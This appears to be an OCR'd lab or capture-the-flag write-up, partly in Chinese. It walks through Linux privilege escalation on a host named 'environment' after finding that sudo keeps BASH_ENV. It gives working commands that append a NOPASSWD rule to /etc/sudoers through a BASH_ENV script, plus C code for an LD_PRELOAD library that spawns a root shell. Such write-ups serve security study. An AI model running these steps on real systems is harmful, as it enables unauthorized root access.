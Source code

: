 ```
hish@environment:/var/www/app/storage/app/public$ sudo -l

Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

```
hish@environment:/var/www/app/storage/app/public$ cat /usr/bin/systeminfo

#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h

secure_path限制了sudo的PATH，即使修改PATH，sudo 仍然会使用secure_path 定义的路径，所以传统的 PATH 劫持可能无效。
```

```
BASH_ENV劫持步骤：

1、创建一个恶意 Shell 脚本（如 /tmp/evil.sh）：
echo 'echo "hish ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /tmp/evil.sh
chmod +x /tmp/evil.sh

2、设置 BASH_ENV 指向该脚本：
export BASH_ENV=/tmp/evil.sh

3、执行 sudo /usr/bin/systeminfo：
如果 systeminfo 调用了 bash 或 sh，它会加载 /tmp/evil.sh，从而修改 /etc/sudoers 赋予 hish 完全 sudo 权限。
```

```
LD_PRELOAD劫持步骤：

1、编写恶意共享库：
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    system("/bin/bash");
}

2、编译并提权：
gcc -fPIC -shared -o /tmp/evil.so evil.c -nostartfiles
sudo LD_PRELOAD=/tmp/evil.so /usr/bin/systeminfo
```
